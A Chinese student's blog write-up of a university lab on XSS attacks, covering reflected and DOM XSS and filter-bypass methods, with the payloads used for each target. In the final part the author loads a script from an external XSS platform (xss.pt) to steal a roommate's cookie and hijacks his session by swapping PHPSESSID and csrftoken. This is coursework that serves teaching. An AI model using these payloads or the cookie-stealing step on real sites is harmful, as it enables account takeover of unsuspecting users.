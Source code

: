 ```yaml
---
title: 网络破防实践先导实验四————XSS攻击
tags: 网络破防实践先导
cover: http://cdn.lmark.cc/img/300137_origin_20220531_195151.jpg
top_img: http://cdn.lmark.cc/img/300150_origin_20220531_195603.jpg
abbrlink: af59cd8a
date: 2022-06-24 17:54:37
---
```


## 前情回顾

终于一路跌跌撞撞，终于来到了网络破防这门课最后一个实验，这次这个实验的可以说四个实验之中最简单的，我只花了不到一个小时就搞定了。



## XSS介绍

首先，什么是XSS攻击呢？

> XSS攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java、 VBScript、ActiveX、 Flash 或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。                                       ——摘自百度百科

我的理解就是，利用一些输入框，然后输入一些能产生特效果的语句，让网页执行你需要的代码，以达到攻击的目的。

网页一般用的html，如果输入的内容没有进行转义，在输出的时候有可能会变成网页html的一部分，像这种

#### **反射型XSS**

![](http://cdn.lmark.cc/img/image-20220624182159558.png)

![](http://cdn.lmark.cc/img/image-20220624182224333.png)

![](http://cdn.lmark.cc/img/image-20220624182239812.png)

![](http://cdn.lmark.cc/img/image-20220624182254833.png)

![](http://cdn.lmark.cc/img/image-20220624182314134.png)



除此之外，还有DOM Based XSS

#### DOM Based XSS

![](http://cdn.lmark.cc/img/image-20220624182746968.png)

#### XSS的过滤和绕过

XSS攻击是一种很常见的攻击方式，所以很早就有了各种各样的防护方式。但是道高一尺，魔高一丈，XSS攻击也有许多绕过方式，如下：

- 闭合引号、标签
- 关键字过滤
- 编码绕过
- 宽字节绕过
- 其他技巧绕过 



关于每种技巧：

##### 闭合引号、标签

![](http://cdn.lmark.cc/img/image-20220624183639593.png)

##### 关键字过滤

![](http://cdn.lmark.cc/img/image-20220624183723311.png)

##### 编码绕过

![](http://cdn.lmark.cc/img/image-20220624183805936.png)

![](http://cdn.lmark.cc/img/image-20220624183910175.png)

![](http://cdn.lmark.cc/img/image-20220624184134170.png)

##### 宽字节绕过

![](http://cdn.lmark.cc/img/image-20220624184312204.png)

![](http://cdn.lmark.cc/img/image-20220624184359039.png)

##### 其他绕过

![](http://cdn.lmark.cc/img/image-20220624184445517.png)

![image-20220624184532523](http://cdn.lmark.cc/img/image-20220624184532523.png)

## 实验过程

#### Target 1

Target1比较容易，直接输出即可，

```javascript
<script>alert(document.cookie);</script>
```

 

#### Target 2

Target2需要先把第一个a标签给结束了，才可以写自己代码，先随便输点东西看看输出的格式，

![](http://cdn.lmark.cc/img/clip_image002.jpg)

可以看到，输出的内容是在一个a标签的herf属性中的，根据格式判断，可以构造一下payload：

```javascript
'><img src=# onerror=alert(document.cookie) /><‘
```

![](http://cdn.lmark.cc/img/clip_image004.jpg)

虽然有点不理解为什么用单引号来结束前面的双引号。

 

#### Target 3

Target3需要用到关键词过滤，script这关键词被过滤了，所以需要构造一下一个字符串来绕过检测：

```javascript
<scriscriptpt>alert(document.cookie);</scriscriptpt>
```



#### Target 4

Target4中，一些特殊字符会被转义，所以得用不同的编码来绕过：

```javascript
<svg><script>alert&#40;document.cookie&#41;</script><svg>
```



#### Target 5

Target5中，提示给出的是需要利用宽字节来绕过，但是，我使用Target2的方法也能输出cookie，、

![](http://cdn.lmark.cc/img/clip_image006.jpg)

然后，盗取别人的cookie，首先，打开xss平台，注册一个账号，然后开始一个项目，然后，复制攻击用的代码：

```javascript
<sCRiPt sRC=//xss.pt/aATU></sCrIpT>
```



然后发送给我亲爱滴室友，我的室友在读到信息后，我就获取到了他的cookie：

 ![](http://cdn.lmark.cc/img/clip_image008.jpg)

然后去浏览器里，检查网页，然后在应用程序中，找到cookie，进行一个修改（修改PHPSESSID和csrftoken即可）：

![](http://cdn.lmark.cc/img/clip_image010.jpg)

![](http://cdn.lmark.cc/img/clip_image012.jpg)

然后就可以登录这个账号了。



## 实验心得 && 结课心得

这是最后一个实验了，网络破防到现在就全部结束了！！！这门课一开始真的挺折磨人的，各种劝退，好多人都在前两个实验就润了，留下了的人都是狼人了，和其他三个先导课（人工智能实验先导，大数据实验先导，软件工程实验先导）比起来，难度可以说挺大的，可不是跟着老师敲敲代码就能过的，得认真地学一会才能做的出来。

这门课最后的成绩可以说挺惨目忍睹的，剩了三十多个人，十几个一百分，十几个不及格，十几个中间。挂科率达到了惊人的**33.33%**，应该是四门先导课里人最少，而且挂科率还最高的课了，不得不说曲老师还是这么狠呀。

至于我嘛，差点就翻车了，四个实验少交了一个，补上之后勉强有一百了。

这个是上课的小小纪念品，不过这个寓意我是搞不懂，脑子里面有水嘛？

![](https://cdn.lmark.cc/img/316698_origin_IMG_20220624_190528.jpg)
